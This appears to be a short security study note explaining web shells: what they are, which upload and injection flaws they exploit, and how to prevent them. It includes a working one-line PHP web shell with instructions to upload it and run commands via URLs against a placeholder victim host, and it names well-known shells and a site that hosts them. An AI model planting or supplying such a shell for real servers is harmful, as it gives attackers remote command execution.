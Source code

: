 # 🌐 Web Shells

## 📋 Purpose

A **web shell** is a malicious script uploaded to a compromised web server to execute commands remotely. It’s often hidden within web applications, making it hard to detect, and is used for unauthorized access, file management, or command execution.

## 🔍 Key Features

- **Languages**: Written in server-supported languages (e.g., PHP, ASP, JSP, CGI).
- **Access**: Executed via a URL with parameters (e.g., `http://victim.com/shell.php?cmd=whoami`).
- **Vulnerabilities Exploited**: Unrestricted File Upload, File Inclusion, Command Injection, or unauthorized server access.

## 🚀 Example PHP Web Shell

```php
<?php
if (isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
```

- **File**: Save as `shell.php` and upload to the server.
- **Usage**: Access via URL, e.g., `http://victim.com/uploads/shell.php?cmd=whoami`.
- **Function**: Executes commands (e.g., `whoami`) and displays output in the browser.

## 🛠 Popular Web Shells

|Name|Description|
|---|---|
|**p0wny-shell**|Minimalistic single-file PHP web shell for remote command execution.|
|**b374k shell**|Feature-rich PHP web shell with file management and command execution.|
|**c99 shell**|Robust PHP web shell with extensive functionality.|

- **Source**: More web shells available at [r57shell.net](https://www.r57shell.net/).

## ✅ Quick Notes

- **Vulnerability**: Unrestricted File Upload allows attackers to upload malicious scripts by failing to restrict file types.
- **Definition**: A web shell is a malicious script uploaded to a vulnerable web application to gain unauthorized access.
- **Detection**: Hard to detect due to blending with legitimate web content.
- **Prevention**: Validate file uploads, restrict server-side scripting, and monitor server logs.
